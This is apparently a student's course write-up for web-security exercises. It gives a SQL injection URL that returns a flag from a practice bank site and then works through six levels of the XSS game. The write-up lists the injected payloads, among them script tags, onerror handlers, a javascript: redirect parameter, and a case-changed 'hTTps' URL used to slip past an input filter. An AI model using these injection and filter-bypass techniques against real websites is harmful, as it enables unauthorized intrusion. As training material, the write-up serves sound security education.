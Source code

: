 # Crypto II Writeup

Name: Michael Wong
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Michael Wong

## Assignment Writeup

### Part 1 (40 Pts)

I was able to get the flag by using the following sql injection in the url

http://1337bank.money:5000/item?id=1' || 1=1 -- -

CMSC389R-{y0u_ar3_th3_SQ1_ninj@}

### Part 2 (60 Pts)

Level 1:

a) Input the following in to the search boc
 <script>alert(1);</script>

Level 2:

a) Input the following into the chat box
  <img src="http://inexist.ent" onerror="javascript:alert(1)"/>

Level 3:

a) Input the following in the url
  https://xss-game.appspot.com/level3/frame#2.jpg'/><script>alert(1);</script>


Level 4
  
a) Input the following in to the input box
  3'); alert(‘1

Level 5
  
a) Click sign up for an exclusive beta

b) Instead of entering an email, we can change the url from:
  https://xss-game.appspot.com/level5/frame/signup?next=confirm

  to

  https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(0);

c) and click next

Level 6:

a) Make a pastebin post with “alert(1);”

b) Get the link to the raw file https://pastebin.com/raw/F6navA5Q

c) Change 'https' to something like 'hTTps' in order to bypass the input sanitation

d) Put this into the url

  https://xss-game.appspot.com/level6/frame#hTTps://pastebin.com/raw/F6navA5Q
